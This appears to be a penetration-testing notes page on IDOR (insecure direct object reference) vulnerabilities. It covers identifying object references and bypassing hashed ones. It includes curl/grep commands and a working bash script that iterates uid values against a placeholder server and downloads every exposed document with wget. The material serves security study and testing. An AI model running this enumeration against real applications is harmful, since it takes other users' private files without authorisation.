 ```yaml
---
layout: default
title: IDOR
permalink: /Web/idor/
---
```


# Insecure Direct Object Reference (IDOR)
IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. 
IDOR vulnerability mainly exists due to the lack of an access control on the back-end.

## Identifying IDORs
- Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies. We can use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.
- We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls.
- Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead.
- If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data. We can try repeating the same API calls while logged in as the other user to see if the web application returns anything.

## Mass Enumeration
We can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files.
If the HTML source code of the links to view file is the following:
```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```
We can use this command:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
Use regex to get the document links:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```
Then we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:
```
#!/bin/bash

url="http://<IP>:<PORT>"

for i in {0..25}; do
  echo "Checking UID $i..."

  # Make POST request and extract file links of various types
  response=$(curl -s "$url/documents.php" --compressed -X POST \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H "Referer: $url/" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: $url" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Sec-GPC: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "uid=$i")

  # Extract .pdf, .csv, .txt links (non-greedy, handles HTML fragments better)
  echo "$response" | grep -oP "/documents/.*?\.(pdf|csv|txt)" | while read -r link; do
    full_url="$url$link"
    echo "Downloading $full_url"
    wget -q "$full_url"
  done
done

```

## Bypassing Encoded References
We cutilize Burp Comparer and fuzz various values and then compare each to our hash to see if we find any matches.
If the hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash.
